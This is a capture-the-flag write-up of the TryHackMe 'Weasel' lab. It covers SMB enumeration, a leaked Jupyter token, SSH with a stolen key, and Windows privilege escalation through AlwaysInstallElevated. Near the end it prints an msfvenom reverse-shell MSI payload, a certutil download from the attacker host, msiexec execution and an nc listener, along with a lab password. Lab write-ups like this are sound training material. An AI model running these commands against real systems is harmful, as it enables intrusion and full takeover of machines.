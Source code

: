 ```yaml
---
published: true
layout: post_toc
title: 2023-05-23-THM-Weasel
categories: Writeup
---
```

# Weasel
I think the data science team has been a bit fast and loose with their project resources.

#### Nmap Result

```bash 
nmap -sV -sC -O -T4 -n -Pn -oA fastscan -Pn
```

![]({{site.baseurl}}/assets/img/2023-05-23-THM-Weasel-1.png){:width="100%"}

Based on the Nmap results, it appears that the machine is likely running a Windows operating system. This conclusion is supported by the presence of open ports associated with the SMB (Server Message Block) protocol, which is commonly used in Windows environments for file sharing and network communication. 

Additionally, the detection of a Jupyter Notebook deployment suggests that the machine may also be used for data science or development purposes. Jupyter Notebook is a popular platform for interactive computing, often utilized by data scientists and researchers. Taken together, the presence of open ports related to SMB and the availability of a Jupyter Notebook deployment point towards a Windows machine with potential data science or development activities.

#### Smb enumeration 

```bash 
smbclient --no-pass -L //10.10.215.176
```

![]({{site.baseurl}}/assets/img/2023-05-23-THM-Weasel-2.png){:width="100%"}

we can see the available shares on a remote SMB server at the machine  there is available share named "datasci-team". but no additional comment or description is provided.

Let's connect to the datasci-team using smbclient. 
```bash 
smbclient --no-pass //10.10.215.176/datasci-team
```

![]({{site.baseurl}}/assets/img/2023-05-23-THM-Weasel-3.png){:width="100%"}

![]({{site.baseurl}}/assets/img/2023-05-23-THM-Weasel-4.png){:width="100%"}

![]({{site.baseurl}}/assets/img/2023-05-23-THM-Weasel-5.png){:width="100%"}

It appears that the majority of the files are related to Weasel research. However, a noteworthy file of interest has been discovered. Within the "misc" directory, there is a file containing a Jupyter token, which could potentially provide access to the Jupyter Notebook instance.

#### Jupyter notebook 

![]({{site.baseurl}}/assets/img/2023-05-23-THM-Weasel-6.png){:width="100%"}

With the Jupyter token we obtained, we can easily gain access to the Jupyter Notebook instance. By using this token, we can authenticate ourselves and access the features and functionalities provided by Jupyter Notebook.

![]({{site.baseurl}}/assets/img/2023-05-23-THM-Weasel-7.png){:width="100%"}

![]({{site.baseurl}}/assets/img/2023-05-23-THM-Weasel-8.png){:width="100%"}

By utilizing the functionality of Jupyter Notebook, it is possible to exploit a reverse shell technique, enabling us to gain access to the shell of the target machine.



#### Adding key to SSH Agent

Let's examine the user accounts by reviewing the contents of the /etc/passwd file. This file contains information about the users on the system, including their usernames, user IDs, group IDs, home directories, and default shells.

![]({{site.baseurl}}/assets/img/2023-05-23-THM-Weasel-9.png){:width="100%"}

![]({{site.baseurl}}/assets/img/2023-05-23-THM-Weasel-10.png){:width="100%"}

Upon inspecting the home directory of dev-datasci, we discovered several files associated with Jupyter Notebook and Anaconda. Of particular interest to us is the file named dev-datasci-lowpriv_id_ed25519, which we can utilize to establish a connection to the previously identified open SSH. 

We can simply add the obtained ssh keys using the commands below and connect the the ssh keys.
```bash
eval "$(ssh-agent -s)"
ssh-add dev-datasci-lowpriv_id_ed25519
ssh -i dev-datasci-lowpriv_id_ed25519 dev-datasci-lowpriv@10.10.215.176
```


#### User Flag

![]({{site.baseurl}}/assets/img/2023-05-23-THM-Weasel-11.png){:width="100%"}

Once you have successfully connected to the SSH, you can easily retrieve the user flag located in the dev-datasci-lowpriv directory on the Desktop.

![]({{site.baseurl}}/assets/img/2023-05-23-THM-Weasel-12.png){:width="100%"}

![]({{site.baseurl}}/assets/img/2023-05-23-THM-Weasel-13.png){:width="100%"}


![]({{site.baseurl}}/assets/img/2023-05-23-THM-Weasel-14.png){:width="100%"}

Take note the results of the default creds of the Default User Name which is ``wUqnKWqzha*W!PWrPRWi!M8faUn``

#### Privilege Escalation 

By executing the "net user" command, we can observe that there are a total of six user accounts, including our own. Our focus is on the administrator account.

![]({{site.baseurl}}/assets/img/2023-05-23-THM-Weasel.png){:width="100%"}

Through a registry query, it has been determined that the "AlwaysInstallElevated" key is currently set to 1. This configuration suggests that privilege escalation can be achieved by utilizing the "msiexec" command. As a next step, we can generate an MSI payload to exploit this opportunity.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<attacker-ip-address> LPORT=4445 -f msi -o reverse.msi
```

```bast 
# From our Machine hosting the payload
sudo python3 -m http.sever 80
```

```bash
# From Victim(Target) Machine
certutil -urlcache -split -f http://10.8.120.163/reverse.msi
```

To exfiltrate our msfvenom payload to the target machine, we can utilize Python and certutil. Following that, we can proceed with privilege escalation by leveraging the "AlwaysInstallElevated" registry setting.

```bash 
runas /user:dev-datasci-lowpriv "msiexec /i C:\Users\dev-datasci-lowpriv\Downloads\rev.msi /qn"
```

```
# listener 
nc -lvnp 4445
```

![]({{site.baseurl}}/assets/img/2023-05-23-THM-Weasel-15.png){:width="100%"}

#### Root Flag 

![]({{site.baseurl}}/assets/img/2023-05-23-THM-Weasel-16.png){:width="100%"}

Once you have successfully gained access, you can effortlessly retrieve the root flag located in the Administrator directory on the Desktop.

--- 
## References
- https://tryhackme.com/room/weasel
- https://medium.com/risan/upgrade-your-ssh-key-to-ed25519-c6e8d60d3c54